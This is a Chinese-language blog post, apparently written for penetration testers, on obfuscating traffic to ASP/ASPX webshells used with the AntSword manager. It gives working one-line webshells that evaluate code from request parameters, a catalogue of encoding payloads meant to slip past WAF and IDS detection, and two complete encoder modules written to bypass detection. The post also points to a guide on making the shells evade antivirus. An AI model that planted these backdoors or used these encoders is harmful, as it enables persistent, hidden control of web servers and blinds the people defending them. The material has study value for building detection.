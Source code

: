 # ASP/ASPX下的流量混淆


<meta name="referrer" content="no-referrer" />

## 前言

今天谈一谈ASP/ASPX下的流量混淆姿势。

以执行`Response.Write("yzddmr6")`为例。

## 不带eval的普通编码方式

### Unicode(asp/aspx)

利用iis解析unicode的特性，我们可以像sql的bypass一样来用unicode编码绕过。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388250-4d5db9c7-0468-4ad2-998a-efdbf7aecbcd.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388349-4be2e940-6312-43b3-bc7c-e8df62d5e9f4.png)

```
mr6=Response.Write("yzddmr6")
```

蚁剑中aspx类型shell默认有unicode编码器，但是asp中没有，可以自己手动添加一份。

### 大小写(asp)

asp对于大小写不敏感，所以可以对payload中的字符进行大小写变换。

```
mr6=REsponSe.WriTe("yzddmr6")
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388447-94bca03e-6125-4148-a08e-ec40265a9e91.png)

要注意的是aspx对大小写敏感，改变大小写之后会500。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388542-25ea48f9-09e9-4c97-ae4c-384a7ae6db46.png)

### 添加百分号(asp)

熟悉sql注入bypass的同学应该知道，iis+asp允许在每个字符前加一个`%`，此处同理。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388678-f72cfc6d-e9f3-4177-8e43-523429b79f7e.png)

```
mr6=R%e%sp%o%n%se.w%ri%te("yzddmr6")
```

## 带eval的普通编码方式

有eval的情况下，无非是找找字符串变换函数来回套娃。

### ASCII码(asp/aspx)

asp下用chr函数+&连接

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388782-49c3c284-4838-4ecb-8e37-7e98cf1f1399.png)

```
mr6=eval(chr(82)%26chr(101)%26chr(115)%26chr(112)%26chr(111)%26chr(110)%26chr(115)%26chr(101)%26chr(46)%26chr(87)%26chr(114)%26chr(105)%26chr(116)%26chr(101)%26chr(40)%26chr(34)%26chr(121)%26chr(122)%26chr(100)%26chr(100)%26chr(109)%26chr(114)%26chr(54)%26chr(34)%26chr(41))
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388885-7df9dee3-79c8-422e-93da-bd79cd266c0c.png)

aspx下用String.fromCharCode+逗号连接

```
mr6=eval(String.fromCharCode(82,101,115,112,111,110,115,101,46,87,114,105,116,101,40,34,121,122,100,100,109,114,54,34,41),"unsafe")
```

### 字符拆分(asp/aspx)

asp下用`&`连接字符串，demo同`chr函数`。

aspx用`+`或者`concat`函数连接字符串

```
mr6=eval('Respons'%2B'e.Write("yzddmr6")',"unsafe")
mr6=eval('Respons'.concat('e.Write("yzddmr6")'),"unsafe")
```

### Base64编码(aspx)

```
mr6=eval(System.Text.Encoding.GetEncoding(936).GetString(System.Convert.FromBase64String("UmVzcG9uc2UuV3JpdGUoInl6ZGRtcjYiKTs=")),"unsafe");
```

### Url编码(asp)

asp

```
eval(unescape("%25%35%32%25%36%35%25%37%33%25%37%30%25%36%66%25%36%65%25%37%33%25%36%35%25%32%65%25%35%37%25%37%32%25%36%39%25%37%34%25%36%35%25%32%38%25%32%32%25%37%39%25%37%61%25%36%34%25%36%34%25%36%64%25%37%32%25%33%36%25%32%32%25%32%39"))
```

## 非常规shell下的编码

以上都是针对于基础类型的shell的流量混淆方法，如果不在最外层再套娃一次的话还是很容易被识别，这里给出几个demo。

### base64_bypass(aspx)

shell

```
<%@ Page Language="Jscript"%>
<%eval(System.Text.Encoding.GetEncoding(936).GetString(System.Convert.FromBase64String(Request.Item["mr6"])),"unsafe");%>
```

可以按照https://yzddmr6.tk/posts/webshell-venom-aspx/ 这篇文章做一下免杀

base64_bypass编码器

```
//
// aspx::base64_bypass 编码模块
// 把所有参数都进行base64编码
// author：yzddmr6
'use strict';
module.exports = (pwd, data, ext = null) => {
  let randomID;
  if (ext.opts.otherConf['use-random-variable'] === 1) {
    randomID = antSword.utils.RandomChoice(antSword['RANDOMWORDS']);
  } else {
    randomID = `${antSword['utils'].RandomLowercase()}${Math.random().toString(16).substr(2)}`;
  }
  data[randomID] = Buffer
    .from(data['_'])
    .toString('base64');
  data[pwd] = Buffer.from(`eval(System.Text.Encoding.GetEncoding(936).GetString(System.Convert.FromBase64String(Request.Item["${randomID}"])),"unsafe");`).toString('base64');
  delete data['_'];
  return data;
}
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900388987-30c329f6-778e-42b8-9119-3d93d9942d96.png)

### url_bypass(asp)

shell

```
<%execute(unescape(request("mr6")))%>
```

url_bypass编码器

```
/**
 * asp::url_bypass 编码器
 * 双重url编码
 * author: yzddmr6
 * <%execute(unescape(request("mr6")))%>
 */
'use strict';
module.exports = (pwd, data) => {
    function str2url(str) {
        var ret = "";
        for (var i = 0; i < str.length; i++) {
          ret += "%"+str[i].charCodeAt().toString(16);
        }
        return ret;
      }
    data[pwd] = `asunescape(${str2url(str2url(data['_']))})`;
    delete data['_'];
    return data;
}
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900389090-e41b260b-4d1e-497f-a5ef-7ce24ee8b265.png)

## 最后

个人推荐的做法还是类似随机cookie编码器那种一次一密的做法，不过可能asp/aspx实现起来不像php那么方便，有空了研究一下。

上面所提到的编码方式可以相互套娃，效果可能更佳。

如果其他想法后面再补上，此贴长期更新。






